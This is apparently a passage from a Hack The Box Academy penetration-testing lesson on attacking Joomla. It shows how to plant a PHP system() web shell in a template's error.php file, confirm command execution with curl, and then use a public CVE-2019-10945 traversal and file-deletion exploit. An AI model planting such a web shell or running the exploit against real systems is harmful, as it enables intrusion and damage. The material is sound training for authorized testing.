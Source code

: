 Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

&#x20;  ![](https://academy.hackthebox.com/storage/modules/113/joomla\_customise.png)

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

Code: php

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

&#x20;  ![](https://academy.hackthebox.com/storage/modules/113/joomla\_edited.png)

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

&#x20; Attacking Joomla

```shell-session
root@htb[/htb]$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

### Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor\_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.
